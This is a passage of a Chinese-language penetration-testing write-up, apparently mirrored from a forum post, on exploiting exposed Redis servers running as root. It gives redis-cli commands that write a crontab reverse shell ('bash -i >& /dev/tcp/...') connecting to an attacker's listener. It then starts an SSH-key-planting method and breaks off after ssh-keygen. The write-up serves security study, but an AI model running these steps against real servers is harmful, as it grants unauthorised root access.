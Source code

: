 # redis总结

> 原文：[https://www.zhihuifly.com/t/topic/3106](https://www.zhihuifly.com/t/topic/3106)

# redis总结

## 一、漏洞简介

redis总结

## 二、影响范围

## 三、复现过程

#### 攻击的几种方法

参考:
http://www.cnblogs.com/xiaozi/p/7568272.html
https://evi1cg.me/archives/hackredis.html

##### (1).利用计划任务执行命令反弹shell

在redis以root权限运行时可以写crontab来执行命令反弹shell

先在自己的服务器上监听一个端口

nc -lvnp 7999

然后执行命令:

```
root@kali:~## redis-cli -h 192.168.63.130
      192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
      192.168.63.130:6379> config set dir /var/spool/cron/
      192.168.63.130:6379> config set dbfilename root
      192.168.63.130:6379> save 
```

**ps:此处使用bash反弹shell，也可使用其他方法**

##### (2).写ssh-keygen公钥然后使用私钥登陆

在以下条件下，可以利用此方法

1、Redis服务使用ROOT账号启动

2、服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。
首先在本地生成一对密钥：

```
root@kali:~/.ssh## ssh-keygen -t rsa 
```

然后redis执行命令：
